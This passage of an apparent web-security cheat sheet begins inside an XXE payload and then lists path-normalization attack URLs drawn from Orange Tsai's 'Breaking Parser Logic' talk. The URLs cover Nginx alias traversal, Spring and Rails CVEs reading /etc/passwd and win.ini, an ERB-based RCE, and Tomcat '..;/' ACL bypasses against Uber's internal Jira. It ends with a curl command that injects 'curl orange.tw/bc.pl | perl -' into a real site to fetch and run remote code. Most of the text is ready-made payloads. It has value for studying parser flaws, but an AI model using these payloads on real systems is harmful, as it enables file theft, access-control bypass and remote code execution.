    <!ENTITY % content SYSTEM "file:///example/example.xml" >
    <!ENTITY % end "]]>">
    <!ENTITY % dtd SYSTEM "http://example/wrapper.dtd" >
    %dtd;
    ]>
    <root>
        <t1>&wrapper;</t1>
    </root>
    ```

## Breaking Parsers 

- <https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf>
- `new URL("file:///etc/passwd?/../../Windows/win.ini")`
  - Windows: UNC: `//etc/passwd?/../../Windows/win.ini`
  - Linux: URL: `file:///etc/passwd`
- `replace` v.s. `replaceAll`
- `..\Q/\E` is the new `../` in Grails
- `/app/static/` v.s. `/app/static`
  - Nginx:
  - `location /static { alias /home/app/static/; }`
  - In: `http://127.0.0.1/static../settings.py` 
  - Out: `/home/app/static/../settings.py`
    ```
    200 http://target/assets/app.js
    403 http://target/assets/
    404 http://target/assets/../settings.py
    403 http://target/assets../
    200 http://target/assets../static/app.js
    200 http://target/assets../settings.py
    ```
- Spring 0day - CVE-2018-1271
  - 
  - `http://0:8080/spring-rabbit-stock/static/%255c%255c%255c%255c%255c%255c..%255c..%255c..%255c..%255c..%255c..%255c/Windows/win.ini`
- Spark framework CVE-2018-9159
  - Same as Spring
- Rails 0day - CVE-2018-3760
  - Affected Rails under development environment 
  - Or production mode with flag assets.compile on
  - Vuln
    - Sprockets supports file:// scheme that bypassed absolute_path?
    - URL decode bypassed double slashes normalization
    - Method split_file_uri resolved URI and unescape again
    - Lead to double encoding and bypass forbidden_request? and prefix check
  - `http://127.0.0.1:3000/assets/file:%2f%2f/app/assets/images/%252e%252e/%252e%252e/%252e%252e/etc/passwd`
  - RCE: 
    - Inject query string %3F to File URL
    - Render as ERB template if the extension is .erb
    - `http://127.0.0.1:3000/assets/file:%2f%2f/app/assets/images/%252e%252e/%252e%252e/%252e%252e/tmp/evil.erb%3ftype=text/plain`
- URL path parameter
  - if you are using reverse proxy with Java as backend service
  - `http://example.com/foo;name=orange/bar/`
  - 
  - Bypass whitelist and blacklist ACL
  - Escape from context mapping
  - `http://example.com/portal/..;/manager/html`
    - Tomcat thinks it should look at parent directory 
  - Example:
    - Uber disallow direct access `*.uberinternal.com`
    - Whitelisted API: `https://jira.uberinternal.com/status`
    - Attack: `https://jira.uberinternal.com/status/..;/secure/Dashboard.jspa`
      - Nginx: `/..;/ seems to be a directory with the /status whitelist. Pass to you!`
      - Tomcat: `/..;/ is the parent directory`
  - Inconsistency to ACL bypass
    - 
    - Changing the 404 template file to
      - `/railo-context/../logs/exception.log`
    - 
    - `curl https://login.getbynder.com/..;/railo-context/foo.cfm -d 'SHELL=-c "curl orange.tw/bc.pl | perl -"'`